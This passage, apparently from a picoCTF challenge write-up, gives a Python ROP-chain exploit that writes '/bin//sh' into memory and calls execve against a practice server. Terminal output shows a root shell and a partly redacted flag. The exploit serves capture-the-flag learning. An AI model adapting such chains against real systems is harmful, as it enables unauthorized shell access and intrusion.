 payload = 'A'*28

payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5060) # @ .data
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x080b074a) # pop eax ; ret
payload += '/bin'
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5064) # @ .data + 4
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x080b074a) # pop eax ; ret
payload += '//sh'
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x0804fb90) # xor eax, eax ; ret
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x08049022) # pop ebx ; ret
payload += pack('<I', 0x080e5060) # @ .data
payload += pack('<I', 0x08049e39) # pop ecx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x080e5060) # padding without overwrite ebx
payload += pack('<I', 0x0804fb90) # xor eax, eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0804a3d2) # int 0x80

p = remote("saturn.picoctf.net", [PORT])
log.info(p.recvS())
p.sendline(payload)
p.interactive()
{% endccb %}

Let's run the script:

{% ccb html:true terminal:true %}
<span style="color:#F99157">$ </span> python2 exp.py
<pre>python2 exp.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port 58931: Done
[<span style="color:#277FFF"><b>*</b></span>] How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
<span style="color:#EC0101"><b>$</b></span> whoami
root
<span style="color:#EC0101"><b>$</b></span> ls
flag.txt
vuln
<span style="color:#EC0101"><b>$</b></span> cat flag.txt
picoCTF{5n47ch_7h3_5h311_<span style="color:#696969"><b>[REDACTED]</b></span>}<span style="color:#EC0101"><b>$</b></span> <span style="background-color:#FFFFFF"><span style="color:#1A1C23"> </span></span>